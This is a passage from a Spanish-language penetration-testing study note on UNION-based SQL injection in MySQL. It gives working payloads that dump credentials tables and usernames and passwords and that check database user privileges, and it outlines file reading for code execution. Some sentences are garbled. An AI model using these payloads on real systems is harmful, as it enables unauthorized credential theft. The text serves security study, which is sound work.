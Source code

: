 Para credenciales por ejemplo

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## DATOS

Ahora que tnemos toda la información podemos sacar el usuario y contraseña.
```
cn' UNION select 1, username, password, 4 from dev.credentials--
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/0d7fdb38-9813-4a53-a9e9-4eea3a753e78)

# LEER ARCHIVOS

Una forma adicional de conseguir datos de las bases de datos, es rellendo archivos del servidor y ganar codigo ejecutable.

## PRIVILEGIOS

Leer dato es muy comun, porque normalmente usuarios privilegiados explicar o hay información.

### DB user

Primero de todo identificar la base de datos. Mientras no sea necesario ser administrador (DBA) para leer archivos, nosotros requeriremos de bases de datos modernas. Si nosotros tenemos DBA privilegios podemos ahcer lo que queramos.

```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
```
cn' UNION SELECT 1, user(), 3, 4-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/89098674-c101-47ed-a2cf-3089cb26499d)

### PRIVILEGIOS DE USUARIO

Ahora que sabemos el usuario en el que nos encontramos, podemos ver a empezar a ver que privilegios tiene cada usuario. Primero de todo, necesitaremos testear si tenemos privilegios de super usuario.

```
SELECT super_priv FROM mysql.user
```

Una vez, nosotros podemos meter el payload.
```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
Si hay muchos usuarios podemos añadir "WHERE user="root" para ver ese solo.
